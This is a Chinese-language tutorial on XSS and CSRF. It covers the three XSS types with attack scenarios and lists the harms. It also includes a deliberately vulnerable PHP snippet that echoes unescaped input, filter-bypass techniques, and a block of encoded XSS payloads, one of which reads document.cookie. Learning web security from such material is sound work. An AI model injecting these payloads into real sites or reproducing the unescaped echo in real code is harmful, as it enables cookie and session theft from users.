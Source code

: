 
# 识别XSS、CSRF
## XSS

XSS一般有三种分类，反射型XSS、存储型XSS、DOM型XSSS；，我们常说的XSS一般指的都是DOM型的。
 
 
经过上面的总结后，发现XSS出现的位置基本上是与JS交互很多。

具体说说DOM型的。

(不经过服务器，前端js代码的利用)：
本地利用漏洞，这种漏洞存在于页面中客户端脚本自身。其攻击过程如下所示：
Alice给Bob发送一个恶意构造了Web的URL。
Bob点击并查看了这个URL。
恶意页面中的JavaScript打开一个具有漏洞的HTML页面并将其安装在Bob电脑上。
具有漏洞的HTML页面包含了在Bob电脑本地域执行的JavaScript。
Alice的恶意脚本可以在Bob的电脑上执行Bob所持有的权限下的命令。

其他的， 反射型的，这种漏洞和类型A有些类似，不同的是Web客户端使用Server端脚本生成页面为用户提供数据时，如果未经验证的用户数据被包含在页面中而未经HTML实体编码，客户端代码便能够注入到动态页面中。
其攻击过程如下：
Alice经常浏览某个网站，此网站为Bob所拥有。Bob的站点运行Alice使用用户名/密码进行登录，并存储敏感信息(比如银行帐户信息)。
Charly发现Bob的站点包含反射性的XSS漏洞。
Charly编写一个利用漏洞的URL，并将其冒充为来自Bob的邮件发送给Alice。
Alice在登录到Bob的站点后，浏览Charly提供的URL。
嵌入到URL中的恶意脚本在Alice的浏览器中执行，就像它直接来自Bob的服务器一样。此脚本盗窃敏感信息(授权、信用卡、帐号信息等)然后在Alice完全不知情的情况下将这些信息发送到Charly的Web站点。


再者就是危害最大的，但是也是最不容易实现的。

存储型（长久型，危害最大）：
该类型是应用最为广泛而且有可能影响到Web服务器自身安全的漏洞，骇客将攻击脚本上传到Web服务器上，使得所有访问该页面的用户都面临信息泄漏的可能，其中也包括了Web服务器的管理员。其攻击过程如下：
Bob拥有一个Web站点，该站点允许用户发布信息/浏览已发布的信息。
Charly注意到Bob的站点具有类型C的XSS漏洞。
Charly发布一个热点信息，吸引其它用户纷纷阅读。
Bob或者是任何的其他人如Alice浏览该信息，其会话cookies或者其它信息将被Charly盗走。
类型A直接威胁用户个体，而类型B和类型C所威胁的对象都是企业级Web应用。

### XSS危害
1. 盗取各类用户帐号，如机器登录帐号、用户网银帐号、各类管理员帐号
2. 控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力
3. 盗窃企业重要的具有商业价值的资料
4. 非法转账
5. 强制发送电子邮件
6. 网站挂马
7. 控制受害者机器向其它网站发起攻击（重定向语句）
8. 窃取cookie的sessionid，冒充登录。
XSS攻击利用到最大就需要自己有台服务器用于窃取信息，还要利用一点社工，骗取别人点击恶意的链接。

### XSS攻击方案

```
<BODY onload="alert('xss')">
```
<img alt="XSS攻击方案" src={useBaseUrl('/images/rsecu/webjs/2_10_1.png')} />

上传文件进行执行，比如附件里面能够上传PHP文件，PHP里面写入一些XSS代码，常见的是如下
```php
<?php
$xss = $_GET['x'];
echo $xss;
?>
```

### httponly
如果在cookie中设置了HttpOnly属性，那么通过js脚本将无法读取到cookie信息，这样能有效的防止XSS攻击，但是并不能防止xss漏洞只能是防止cookie被盗取。


### 绕过思路
标签语法替换 
特殊符号干扰 
提交方式更改 
垃圾数据溢出 
加密解密算法 
结合其他漏洞绕过  

大小写绕过
javascript伪协议
没有分号
Flash
HTML5 新标签
Fuzz进行测试
双层标签绕过 

```
<audio src=x onerror=alert(47)>
<audio src=x onerror=prompt(1);>
<audio src=1 href=1 onerror="javascript:alert(1)"></audio>
<video src=x onerror=prompt(1);>
<video src=x onerror=alert(48)>
<div style="width:expression(alert(/1/))">1</div>     ie浏览器执行
<div onmouseover%3d'alert%26lpar%3b1%26rpar%3b'>DIV<%2fdiv>   url编码绕过
<math><a/xlink:href=javascript:prompt(1)>Xss

<math href="javascript:javascript:alert(1)">Xss</math>
<button onfocus=alert(1) autofocus>
<button/onclick=alert(1) >xss</button>
<keygen/onfocus=prompt(1);>
<keygen onfocus=javascript:alert(1) autofocus>
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>

base64加密：PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg    
      解码：<script>alert(1)</script>
      <IFRAME width%3d"420" height%3d"315" frameborder%3d"0" onload%3d"alert(document.cookie)"><%2fIFRAME>
<iframe%2fsrc%3d"data%3atext%2fhtml%3b%26Tab%3bbase64%26Tab%3b,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg%3d%3d">
<iframe srcdoc%3d'%26lt%3bbody onload%3dprompt%26lpar%3b1%26rpar%3b%26gt%3b'>
```

## CSRF和SSRF
这俩基本上很难利用
可以参考下面的文章，整体有个认识。 
https://blog.csdn.net/qq_41895003/article/details/130764161